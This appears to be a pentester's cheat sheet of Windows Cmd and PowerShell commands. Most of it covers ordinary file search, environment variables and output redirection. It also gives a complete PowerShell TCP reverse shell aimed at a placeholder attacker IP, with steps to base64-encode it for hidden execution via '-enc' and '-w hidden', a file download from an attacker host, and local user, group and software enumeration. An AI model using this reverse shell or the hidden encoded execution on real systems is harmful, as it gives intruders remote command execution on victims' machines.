 # Regular Cmd and Powershell commands

## Cmd

### Environment variables

```
cd %userprofile%
```

### Find and search files

Find:
```
dir /s *.txt
forfiles /P C:\Windows /S /M *.txt /c "cmd /c echo @PATH"
```
and search:
```
find "some string" somefile.txt
find """string in double quotes""" anotherfile.txt
find /i "case insensitive" file.txt
find /?
```
Count lines:
```
find /c /v "" file.txt
```

RegExp: 
- https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/findstr
- https://www.windows-commandline.com/findstr-command-examples-regular/
```
findstr pattern filename.txt
```

### Enumeration

```
whoami
whoami /priv
whoami /group
systeminfo
ipconfig /all
route print
netstat -ano
net user
net localgroup
```

---

## Powershell

About `powershell.exe`: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1

### Options

Regular options:
- NoLogo
- NoProfile: no custom configuration
- NonInteractive
- ExecutionPolicy: bypass
- EncodedCommand: same as `-enc`
- WindowStyle: `-w hidden`

### Environment variables

```
cd "env:userprofile\desktop"
```

### Write output to a file

Source: https://stackoverflow.com/questions/1215260/how-to-redirect-the-output-of-a-powershell-to-a-file-during-its-execution
```
PS> .\myscript.ps1 | Out-File c:\myoutput.txt
PS> Write "Stuff to write" | Out-File Outputfile.txt -Append
```

### Find files

```
Get-ChildItem -Recurse -Include *.txt -File -ErrorAction SilentlyContinue -Path 'C:\path\to\dir' 
```

### Search files

```
Get-Content somefile.txt | Select-String -Pattern 'string to search' -Context $nblinesbefore,$nblinedafter
```

### Change the execution policy

```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

### Reverse shell

In a Powershell prompt, build the base64 string:
```
$Text = '$client = New-Object System.Net.Sockets.TCPClient("$AttackerIp",$AttackerPort);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)
```
Usage: `powershell -enc base64_encoded_long_string`

Build the base64 string in Linux:
- https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py
- https://github.com/ThomasBucaioni/pentools/blob/main/microsoft/powershell_powercat_encoding.py

References:
- https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/3ad91872713d60888dca95850c3f6e706231cb40/powershell_reverse_shell.ps1
- https://github.com/darkoperator/powershell_scripts/tree/master

### Download a file

```
iwr -uri http://$IpAttacker/somefile.exe -outfile somefiledownloaded.exe
```

### Enumeration

```
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember somelocalgroup
Get-LocalGroupMember Administrators
Get-ItemProperty "HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*"
Get-ItemProperty "HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | Get-Member
Get-ItemProperty "HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | Select DisplayName
Get-ItemProperty "HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\*" | Select DisplayName
Get-Process
```
